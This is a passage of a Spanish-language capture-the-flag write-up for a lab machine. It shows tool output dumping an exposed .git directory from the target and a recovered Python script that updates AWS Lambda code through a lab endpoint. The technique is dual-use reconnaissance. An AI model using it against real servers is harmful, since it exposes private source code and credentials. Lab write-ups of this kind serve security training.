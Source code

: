 ```bash
[-] Finding packs
[-] Finding objects
[-] Fetching objects
[-] Fetching http://10.10.11.134/.git/objects/7c/f92a7a09e523c1c667d13847c9ba22464412f3 [200]
[-] Fetching http://10.10.11.134/.git/objects/ce/401ccecf421ff19bf43fafe8a60a0d0f0682d0 [200]
[-] Fetching http://10.10.11.134/.git/objects/b1/0dd06d56ac760efbbb5d254ea43bf9beb56d2d [200]
[-] Fetching http://10.10.11.134/.git/objects/c6/22771686bd74c16ece91193d29f85b5f9ffa91 [200]
[-] Fetching http://10.10.11.134/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] http://10.10.11.134/.git/objects/00/00000000000000000000000000000000000000 responded with status code 404
[-] Fetching http://10.10.11.134/.git/objects/8d/3b52e153c7d5380b183bbbb51f5d4020944630 [200]
[-] Fetching http://10.10.11.134/.git/objects/c5/1441640fd25e9fba42725147595b5918eba0f1 [200]
[-] Fetching http://10.10.11.134/.git/objects/df/dfa17ca5701b1dca5069b6c3f705a038f4361e [200]
[-] Fetching http://10.10.11.134/.git/objects/5c/52105750831385d4756111e1103957ac599d02 [200]
[-] Fetching http://10.10.11.134/.git/objects/b5/f4c99c772eeb629e53d284275458d75ed9a010 [200]
[-] Fetching http://10.10.11.134/.git/objects/65/b80f62da28254f67f0bea392057fd7d2330e2d [200]
[-] Fetching http://10.10.11.134/.git/objects/cf/489a3776d2bf87ac32de4579e852a4dc116ce8 [200]
[-] Fetching http://10.10.11.134/.git/objects/ab/07f7cdc7f410b8c8f848ee5674ec550ecb61ca [200]
[-] Fetching http://10.10.11.134/.git/objects/54/5f6fe2204336c1ea21720cbaa47572eb566e34 [200]
[-] Fetching http://10.10.11.134/.git/objects/fe/d7ab97cf361914f688f0e4f2d3adfafd1d7dca [200]
[-] Running git checkout .
```

Una vez realizado este procedimiento, obtenemos un código en python que nos entrega un endpoint (cloud.epsilon.htb).

```python
# nano track_api_CR_148.py
import io
import os
from zipfile import ZipFile
from boto3.session import Session


session = Session(
    aws_access_key_id='<aws_access_key_id>',
    aws_secret_access_key='<aws_secret_access_key>',
    region_name='us-east-1',
    endpoint_url='http://cloud.epsilon.htb')
aws_lambda = session.client('lambda')


def files_to_zip(path):
    for root, dirs, files in os.walk(path):
        for f in files:
            full_path = os.path.join(root, f)
            archive_name = full_path[len(path) + len(os.sep):]
            yield full_path, archive_name


def make_zip_file_bytes(path):
    buf = io.BytesIO()
    with ZipFile(buf, 'w') as z:
        for full_path, archive_name in files_to_zip(path=path):
            z.write(full_path, archive_name)
    return buf.getvalue()


def update_lambda(lambda_name, lambda_code_path):
    if not os.path.isdir(lambda_code_path):
        raise ValueError('Lambda directory does not exist: {0}'.format(lambda_code_path))
    aws_lambda.update_function_code(
        FunctionName=lambda_name,
        ZipFile=make_zip_file_bytes(path=lambda_code_path))
```